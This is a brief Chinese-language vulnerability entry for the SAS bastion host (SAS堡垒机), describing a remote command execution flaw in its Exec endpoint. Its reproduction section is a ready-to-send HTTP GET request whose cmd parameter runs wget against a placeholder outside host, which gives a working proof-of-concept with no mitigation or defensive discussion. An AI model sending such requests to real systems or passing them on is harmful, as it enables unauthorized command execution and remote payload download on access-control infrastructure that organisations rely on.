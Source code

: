 #### 影响范围

SAS堡垒机

#### 漏洞概述

SAS堡垒机 Exec远程命令执行

#### 漏洞复现

漏洞POC：

```
GET /webconf/Exec/index?cmd=wget%20xxx.xxx.xxx HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
Connection: close
```



